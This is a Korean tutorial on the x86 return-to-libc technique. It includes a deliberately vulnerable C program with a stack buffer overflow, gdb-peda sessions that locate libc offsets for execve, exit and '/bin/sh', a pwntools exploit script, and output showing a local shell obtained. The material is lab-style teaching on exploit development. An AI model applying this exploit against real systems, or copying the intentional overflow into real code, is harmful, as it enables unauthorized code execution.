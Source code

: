 # **x86 Return to libc**

Return address 영역에 공유 라이브러리 함수 주소로 변조해, 해당 함수를 호출하는 기법.  
NX bit(DEP) 우회 가능.

```
0xffffd578  0xffffd598  이전 호출 프레임(push ebp)
0xffffd57c  0x0804844e  Return Address
0xffffd580  0x1         Arg 1
0xffffd584  0x2         Arg 2
0xffffd588  0x3         Arg 3
0xffffd58c  0x4         Arg 4
``` 

* ret2libc 기법 사용 시 인자 값을 전달하기 위해서 Return address의 4byte 뒤에 인자 값을 전달해야 함.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -fno-stack-protector -o ret2libc ret2libc.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50] = "";
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```

* buf 크기는 50byte이지만 100byte를 입력받아 Buffer Overflow 발생.

```
gdb-peda$ x/24wx $ebp
0xbfdcb318:	0x41414141         0x42424242 <- &execve 0x43434343 <- &exit 0x44444444 <- &"/bin/sh"
0xbfdcb328:	0x45454545 <- null 0x46464646 <- null    0x0000000a          0xb7e0b637
```

* execve()와 "/bin/sh" 주소를 확인한다.

```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xb7e3c670 <__printf>

gdb-peda$ p execve-printf
$2 = 0x67170

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f4ea0b ("/bin/sh")
gdb-peda$ p 0xb7f4ea0b-0xb7e3c670
$3 = 0x11239b

gdb-peda$ p printf-exit
$4 = 0x1aca0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process('ret2libc')

recv = p.recvline()
printf=int(recv.split(' ')[3],16)
execve = printf + int(0x67170)
binsh = printf + int(0x11239b)
exit = printf - int(0x1aca0)
null = printf - int(0x49530)

print('printf  :'+hex(printf))
print('execve  :'+hex(execve))
print('/bin/sh :'+hex(binsh))
print('exit    :'+hex(exit))
print('null    :'+hex(null))
p.sendline("A"*66+p32(execve)+p32(exit)+p32(binsh)+p32(null)+p32(null))

p.interactive()
```

## **Exploit**
```
bs@bs-virtual-machine:~$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[!] Could not find executable 'ret2libc' in $PATH, using './ret2libc' instead
[+] Starting local process './ret2libc': pid 16968
printf  :0xb7d94670
execve  :0xb7dfb7e0
/bin/sh :0xb7ea6a0b
exit    :0xb7d799d0
null    :0xb7d4b140
[*] Switching to interactive mode
$ id
uid=1000(bs) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86>

